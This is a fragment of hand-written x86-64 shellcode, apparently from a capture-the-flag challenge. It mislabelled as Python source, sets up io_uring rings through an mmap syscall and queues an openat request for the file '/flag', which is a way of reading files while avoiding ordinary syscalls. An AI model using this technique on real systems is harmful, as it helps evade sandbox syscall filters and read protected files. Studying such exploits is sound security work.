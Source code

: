    ```py
   		dec rcx
   		test rcx,rcx
   		jnz label2
   
   		mov ebx,dword ptr [rbp-0x3f8+4*26]
   		test ebx,ebx
   		jz label3
   		jmp label4
   		label3:
   		xor rbx,rbx
   		mov [rbp-0x380-8+104+4*8],rbx
   
   		label4:
   		mov esi,dword ptr [rbp-0x3f8]
   		shl rsi,6
   		xor rdi,rdi
   		mov rdx,3
   		mov r10,32769
   		mov r8,[rbp-0x400]
   		mov r9,0x10000000
   		mov rax,9
   		syscall
   		mov [rbp-0x380+7*8],rax
   
   		mov eax,dword ptr [rbp-0x400]
   		mov dword ptr [rbp-0x380+196],eax
   
   		mov eax,dword ptr [rbp-0x3f8+4*2]
   		mov dword ptr [rbp-0x380+192],eax
   
   		mov eax,dword ptr [rbp-0x3f8+4*5]
   		mov dword ptr [rbp-0x380+200],eax
   
   		/* io_uring_mmap end*/
   
   		/*
   		mov rdx,[rbp-0x400]
   		lea rdi,[rbp-0x380]
   		mov [rdi+196],rdx
   		*/
   
   
   		/* open */
   
   		mov rax,0x67616c662f
   		mov [rbp-0x60],rax
   		lea rdi,[rbp-0x380]
   		call io_uring_get_sqe
   
   		mov [rbp-0x70],rax
   		mov rsi,rax
   		mov rdx,-100
   		lea rcx,[rbp-0x60]
   		xor r8,r8
   		xor r9,r9
   		mov rdi,18
   		call io_uring_prep_rw
   
   
   		mov rdi,[rbp-0x70]
   
   		mov rax,4
   		mov [rdi+32],rax
   ```
